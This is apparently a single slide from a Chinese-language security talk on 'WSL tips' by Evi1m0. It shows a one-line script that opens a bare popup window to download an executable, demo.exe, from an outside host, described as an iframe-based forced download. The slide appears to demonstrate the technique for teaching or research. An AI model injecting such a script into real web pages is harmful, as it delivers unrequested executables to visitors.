

# WSL Tips案例
— Evi1m0
嵌入iframe标签弹出浏览器进行下载：
<script>window.open (‘http://www.hackersoul.com/demo.exe','newwindow','height=1000,width=1000,top=0,left=0,toolbar=no,menubar=no,scrollbars=no, resizable=no,location=no, status=no’);</script>